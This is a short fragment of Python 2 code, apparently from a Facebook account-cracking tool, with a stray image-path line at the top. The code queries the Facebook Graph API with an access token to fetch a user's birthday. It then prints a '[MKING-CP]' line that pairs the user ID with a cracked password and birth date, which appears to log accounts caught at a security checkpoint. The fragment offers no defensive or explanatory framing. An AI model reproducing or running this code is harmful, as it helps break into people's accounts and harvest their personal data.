                     cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s' % (user, sultani)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r%s[MKING-CP] %s | %s | %s %s %s %s' % (K, user, pw, day, month, year, N)
